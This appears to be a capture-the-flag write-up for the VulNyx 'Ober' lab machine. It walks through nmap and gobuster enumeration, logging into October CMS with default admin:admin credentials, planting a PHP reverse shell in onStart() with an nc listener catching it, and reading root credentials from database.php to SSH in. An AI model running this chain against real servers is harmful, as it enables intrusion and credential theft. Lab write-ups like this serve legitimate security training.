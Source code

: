 ```yaml
---
title: VulNyx - Ober Writeup
date: 2025-05-14 10:24:59 +0530
categories: [Vulnyx, Writeups]
tags: [vulnyx, linux]
description: Hey everyone! This write-up covers the challenge “Ober” which was released on https://vulnyx.com. The box is rated easy and is an excellent challenge for those looking to start out.
--- 
```


## Reconnaissance

```bash
labs/vulnyx/Ober 
❯ nmap -sC -sV -oA ober 192.168.25.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-04 09:11 EDT
Nmap scan report for ober.vl (192.168.25.6)
Host is up (0.000068s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 27:21:9e:b5:39:63:e9:1f:2c:b2:6b:d3:3a:5f:31:7b (RSA)
|   256 bf:90:8a:a5:d7:e5:de:89:e6:1a:36:a1:93:40:18:57 (ECDSA)
|_  256 95:1f:32:95:78:08:50:45:cd:8c:7c:71:4a:d4:6c:1c (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Homepage &#124; My new websites
|_http-server-header: Apache/2.4.38 (Debian)
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:B2:AF:E6 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.69 seconds

```

### Port 80 - HTTP

```bash
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Homepage &#124; My new websites
|_http-server-header: Apache/2.4.38 (Debian)
```

The main webpage did not contain anything interesting. However, performing directory enumeration using Gobuster revealed an *October CMS Administration login page*.  

## Directory Enumeration
### Gobuster

```bash
labs/vulnyx/Ober 
❯ sudo ./gobuster dir -u http://192.168.25.6 -w /usr/share/wordlists/dirb/common.txt -e -b 403,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.25.6
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404,403
[+] User Agent:              gobuster/3.6
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://192.168.25.6/0                    (Status: 200) [Size: 9895]
http://192.168.25.6/backend              (Status: 302) [Size: 406] [--> http://192.168.25.6/backend/backend/auth]
http://192.168.25.6/config               (Status: 301) [Size: 313] [--> http://192.168.25.6/config/]
http://192.168.25.6/index.php            (Status: 200) [Size: 9895]
http://192.168.25.6/modules              (Status: 301) [Size: 314] [--> http://192.168.25.6/modules/]
http://192.168.25.6/plugins              (Status: 301) [Size: 314] [--> http://192.168.25.6/plugins/]
http://192.168.25.6/storage              (Status: 301) [Size: 314] [--> http://192.168.25.6/storage/]
http://192.168.25.6/themes               (Status: 301) [Size: 313] [--> http://192.168.25.6/themes/]
http://192.168.25.6/vendor               (Status: 301) [Size: 313] [--> http://192.168.25.6/vendor/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================                                                                      
```
<br>
An October CMS Administration login page was discovered in `/backend/backend/auth/signin`

<center>
<figure>
<img src="/assets/img/october_cms_login.png" style="width: 500px;" alt="October CMS Administration login page">
<figcaption>Fig.1 - October CMS Administration login page</figcaption>
</figure>
</center>


After testing commonly used default credentials, I was able to successfully login to October CMS admin panel using the credentials `admin:admin`

## Reverse Shell

October CMS allows PHP execution via functions like *`onStart()`* (See [docs](https://docs.octobercms.com/2.x/cms/pages.html#page-execution-life-cycle)). This allows us to include PHP reverse shells within these functions.

<center>
<figure>
<img src="/assets/img/october_cms_php_shell.png" style="width: 1000px;" alt="PHP reverse shell included within the function onStart()">
<figcaption>Fig.2 - PHP reverse shell included within the function onStart()</figcaption>
</figure>
</center>
<br>

```bash
labs/vulnyx/Ober 
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.25.4] from (UNKNOWN) [192.168.25.6] 56302
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Root access

The [docs](https://docs.octobercms.com/2.x/database/basics.html#configuration) mention a database configuration file can be found in `/config/database.php` which upon inspection, led to the discovery of the root-level credentials `root:r00tP@ssW0rd`

```bash
> grep "password" database.php
            'password'   => 'root',
         // 'password'   => 'r00tP@ssW0rd',
            'password' => '',
            'password' => '',
            'password' => null,
```

## User Flag

```bash
root@ober:~# find / -name user.txt
/home/c0w/user.txt
root@ober:~# cat /home/c0w/user.txt 
7597****************************
```

## Root Flag

```bash
labs/vulnyx/Ober 
❯ ssh root@192.168.25.6
The authenticity of host '192.168.25.6 (192.168.25.6)' can't be established.
ED25519 key fingerprint is SHA256:YZj1kF9uAadJk+aLh9kjKOFN5ohREbSGoCGqU4hA1w4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.25.6' (ED25519) to the list of known hosts.
root@192.168.25.6's password: 
root@ober:~# ls
root.txt
root@ober:~# cat root.txt 
5dfc****************************
```